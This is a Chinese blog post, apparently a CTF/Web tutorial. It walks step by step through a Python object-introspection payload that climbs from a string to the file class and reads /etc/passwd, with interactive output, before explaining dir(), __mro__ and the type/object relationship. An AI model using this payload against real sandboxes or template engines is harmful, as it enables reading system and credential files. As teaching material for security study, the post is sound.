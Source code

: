 ```yaml
---
title: 关于python魔术方法payload："".__class__.__mro__[2].__subclasses__()[40]("/etc/passwd").read() 的解释
date: 2019-01-02 00:00:00
categories:
- CTF/Web
tags: python
---
```


## 总览

```python
"".__class__.__mro__[2].__subclasses__()[40]("/etc/passwd").read()
```

其实就是类似java的反射，通过一个对象找到另一个对象，这里通过一个字符串对象，找了一个文件对象，然后初始化，读取，就是这么个事。

```python
# 获得一个字符串实例
>>> ""
''
# 获得字符串的type实例
>>> "".__class__ 
<type 'str'>
# 获得其父类
>>> "".__class__.__mro__
(<type 'str'>, <type 'basestring'>, <type 'object'>)
# 获得父类中的object类
>>> "".__class__.__mro__[2] 
<type 'object'>
# 获得object类的子类，但发现这个__subclasses__属性是个方法
>>> "".__class__.__mro__[2].__subclasses__
<built-in method __subclasses__ of type object at 0x10376d320>
# 使用__subclasses__()方法，获得object类的子类
>>> "".__class__.__mro__[2].__subclasses__() 
[<type 'type'>, <type 'weakref'>, <type 'weakcallableproxy'>, <type 'weakproxy'>, <type 'int'>, <type 'basestring'>, <type 'bytearray'>, <type 'list'>, <type 'NoneType'>, <type 'NotImplementedType'>, <type 'traceback'>, <type 'super'>, <type 'xrange'>, <type 'dict'>, <type 'set'>, <type 'slice'>, <type 'staticmethod'>, <type 'complex'>, <type 'float'>, <type 'buffer'>, <type 'long'>, <type 'frozenset'>, <type 'property'>, <type 'memoryview'>, <type 'tuple'>, <type 'enumerate'>, <type 'reversed'>, <type 'code'>, <type 'frame'>, <type 'builtin_function_or_method'>, <type 'instancemethod'>, <type 'function'>, <type 'classobj'>, <type 'dictproxy'>, <type 'generator'>, <type 'getset_descriptor'>, <type 'wrapper_descriptor'>, <type 'instance'>, <type 'ellipsis'>, <type 'member_descriptor'>, <type 'file'>, <type 'PyCapsule'>, <type 'cell'>, <type 'callable-iterator'>, <type 'iterator'>, <type 'sys.long_info'>, <type 'sys.float_info'>, <type 'EncodingMap'>, <type 'fieldnameiterator'>, <type 'formatteriterator'>, <type 'sys.version_info'>, <type 'sys.flags'>, <type 'exceptions.BaseException'>, <type 'module'>, <type 'imp.NullImporter'>, <type 'zipimport.zipimporter'>, <type 'posix.stat_result'>, <type 'posix.statvfs_result'>, <class 'warnings.WarningMessage'>, <class 'warnings.catch_warnings'>, <class '_weakrefset._IterationGuard'>, <class '_weakrefset.WeakSet'>, <class '_abcoll.Hashable'>, <type 'classmethod'>, <class '_abcoll.Iterable'>, <class '_abcoll.Sized'>, <class '_abcoll.Container'>, <class '_abcoll.Callable'>, <type 'dict_keys'>, <type 'dict_items'>, <type 'dict_values'>, <class 'site._Printer'>, <class 'site._Helper'>, <type '_sre.SRE_Pattern'>, <type '_sre.SRE_Match'>, <type '_sre.SRE_Scanner'>, <class 'site.Quitter'>, <class 'codecs.IncrementalEncoder'>, <class 'codecs.IncrementalDecoder'>]
# 获得第40个子类的一个实例，即一个file实例
>>> "".__class__.__mro__[2].__subclasses__()[40] 
<type 'file'>
# 对file初始化
>>> "".__class__.__mro__[2].__subclasses__()[40]("/etc/passwd") 
<open file '/etc/passwd', mode 'r' at 0x10397a8a0>
# 使用file的read属性读取，但发现是个方法
>>> "".__class__.__mro__[2].__subclasses__()[40]("/etc/passwd").read
<built-in method read of file object at 0x10397a5d0>
# 使用read()方法读取
>>> "".__class__.__mro__[2].__subclasses__()[40]("/etc/passwd").read()
nobody:*:-2:-2:Unprivileged 
User:/var/empty:/usr/bin/false
root:*:0:0:System 
Administrator:/var/root:/bin/sh

```

## 问题

问：但我怎么知道什么类有什么方法呢？比如我如何知道应该用__mro__属性去找父类？__mro__是什么类的成员方法？又比如我怎么知道__subclasses__()是一个方法，而不是一个直接可以返回数组的变量呢？

答：python中有一个内置函数是dir()，可以用这个函数来查看传入参数的成员方法以及属性，我们来尝试一下

```python
>>> dir("")
['__add__', '__class__', '__contains__', '__delattr__', '__doc__', '__eq__', '__format__', '__ge__', '__getattribute__', '__getitem__', '__getnewargs__', '__getslice__', '__gt__', '__hash__', '__init__', '__le__', '__len__', '__lt__', '__mod__', '__mul__', '__ne__', '__new__', '__reduce__', '__reduce_ex__', '__repr__', '__rmod__', '__rmul__', '__setattr__', '__sizeof__', '__str__', '__subclasshook__', '_formatter_field_name_split', '_formatter_parser', 'capitalize', 'center', 'count', 'decode', 'encode', 'endswith', 'expandtabs', 'find', 'format', 'index', 'isalnum', 'isalpha', 'isdigit', 'islower', 'isspace', 'istitle', 'isupper', 'join', 'ljust', 'lower', 'lstrip', 'partition', 'replace', 'rfind', 'rindex', 'rjust', 'rpartition', 'rsplit', 'rstrip', 'split', 'splitlines', 'startswith', 'strip', 'swapcase', 'title', 'translate', 'upper', 'zfill']
>>> dir("".__class__)
['__add__', '__class__', '__contains__', '__delattr__', '__doc__', '__eq__', '__format__', '__ge__', '__getattribute__', '__getitem__', '__getnewargs__', '__getslice__', '__gt__', '__hash__', '__init__', '__le__', '__len__', '__lt__', '__mod__', '__mul__', '__ne__', '__new__', '__reduce__', '__reduce_ex__', '__repr__', '__rmod__', '__rmul__', '__setattr__', '__sizeof__', '__str__', '__subclasshook__', '_formatter_field_name_split', '_formatter_parser', 'capitalize', 'center', 'count', 'decode', 'encode', 'endswith', 'expandtabs', 'find', 'format', 'index', 'isalnum', 'isalpha', 'isdigit', 'islower', 'isspace', 'istitle', 'isupper', 'join', 'ljust', 'lower', 'lstrip', 'partition', 'replace', 'rfind', 'rindex', 'rjust', 'rpartition', 'rsplit', 'rstrip', 'split', 'splitlines', 'startswith', 'strip', 'swapcase', 'title', 'translate', 'upper', 'zfill']
```
首先我们看到``` dir("")与dir("".__class__)```的结果是完全一样的

按照```"".__class__.__mro__[2].__subclasses__()[40]("/etc/passwd").read()``` 的利用方法，接下来应该使用__mro__这个属性，来获得父类，但是我并没有在```dir("".__class__)```中看到这个属性，这是为什么呢？__mro__属性在哪呢？

## type与object

为了解释上面的这个问题，我们先要了解在python中的一个哲学问题，就是type与object的问题，这二位就像是哲学上的物质与意识，不仅相互关联，而且不可分割。

[Python 的 type 和 object 之间是怎么一种关系？](https://blog.csdn.net/piglite/article/details/78294112)

[python中的type和object详解](https://www.cnblogs.com/busui/p/7283137.html)

在Python的世界中：
- object是父子关系的顶端，所有的数据类型的父类都是它
- type是类型实例关系的顶端，所有对象都是它的实例的

也就是说这里不同于我们之前学到的类与对象的关系，这里有两条线，一个是类的关系，一个是实例的关系。也就是说：
- object和type都既是类又是实例
- object是type的一个实例
- type是object的子类

## __class__与__base_属性




